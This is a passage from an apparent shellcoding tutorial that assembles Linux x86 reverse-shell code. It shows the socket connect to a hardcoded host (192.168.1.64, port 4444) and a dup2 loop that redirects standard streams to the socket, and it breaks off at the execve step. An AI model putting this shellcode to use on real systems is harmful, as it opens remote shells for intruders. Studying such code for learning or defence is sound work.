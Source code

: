 
#### Connect the socket

```c
int connect(int sockfd, const struct sockaddr *addr,
                   socklen_t addrlen);
```

Connect the socket to an address and port.


```nasm
	xor ecx, ecx
	push 0x4001a8c0		; addr (192.168.1.64)
	push word 0x5c11	; Port 4444
	push word 2		; PF_INET
	mov ecx, esp		; save *addr in ecx
	
	push 0x10		; length addrlen=16
	push ecx		; &serv_addr
	push esi		; sockfd

	mov ecx, esp		; arguments
	mov al, 102		; systemcall
	mov bl, 3		; sys_connect
	int 0x80
```


After the connection is done, I duplicate the file descriptors to send all messages to the socket file descriptor.

#### Dup2

```c
int dup2(int oldfd, int newfd);
```

Duplicate the file descriptor, I did a loop to duplicate the three file descriptors (in, out and err) with the socket file descriptor.

```nasm
        mov ebx, eax            ; oldfd = clientfd
        xor ecx, ecx            ; ecx = newfd
loop:
        mov al, 0x3f            ; syscall dup2
        int 0x80
        inc ecx
        cmp ecx, 0x2
        jle loop
```


#### Execve
```c
int execve(const char *filename, char *const argv[],
                  char *const envp[]);
```
